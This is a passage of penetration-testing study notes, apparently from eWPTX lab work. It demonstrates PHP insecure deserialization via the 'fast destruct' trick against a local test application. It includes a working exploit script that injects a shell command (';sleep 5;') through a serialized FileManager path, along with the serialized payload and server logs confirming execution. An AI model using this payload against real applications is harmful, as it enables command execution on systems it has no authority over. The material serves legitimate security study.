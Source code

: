 However, if we change the array size value:

```php
$wtf = unserialize('a:2:{s:7:"payload";O:4:"test":0:{}}');
```

The `__destruct` command is executed:

```bash
┌──(kali㉿kali)-[~/Desktop/eWPTX/serialization/insegura]
└─$ php test.php
PHP Notice:  unserialize(): Unexpected end of serialized data in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 9
PHP Notice:  unserialize(): Error at offset 34 of 35 bytes in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 9
**test 123**PHP Fatal error:  Uncaught Error: Call to a member function test() on bool in /home/kali/Desktop/eWPTX/serialization/insegura/test.php:10
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 10
```

Now, adapting this to the previously worked application scenario:

**exploit-fast-destruct.php**

```php
<?php

class FileManager {
    public $path = "/tmp/aula;sleep 5; echo ";
}

echo serialize(array('payload'=>new FileManager()));
?>
```

Then change it to two positions and encode it.

```bash
a:2:{s:7:"payload";O:11:"FileManager":1:{s:4:"path";s:25:"/tmp/aula/;sleep 5; echo ";}}
```

We can see that it worked because it waited 5 seconds:

```bash
[Thu Jul 25 17:00:30 2024] PHP Fatal error:  Uncaught Error: Call to a member function isAuth() on array in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
[Thu Jul 25 17:00:30 2024] 127.0.0.1:53154 [500]: GET / - Uncaught Error: Call to a member function isAuth() on array in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
[Thu Jul 25 17:00:35 2024] 127.0.0.1:53154 Closing
[Thu Jul 25 17:00:35 2024] 127.0.0.1:53162 Accepted

```
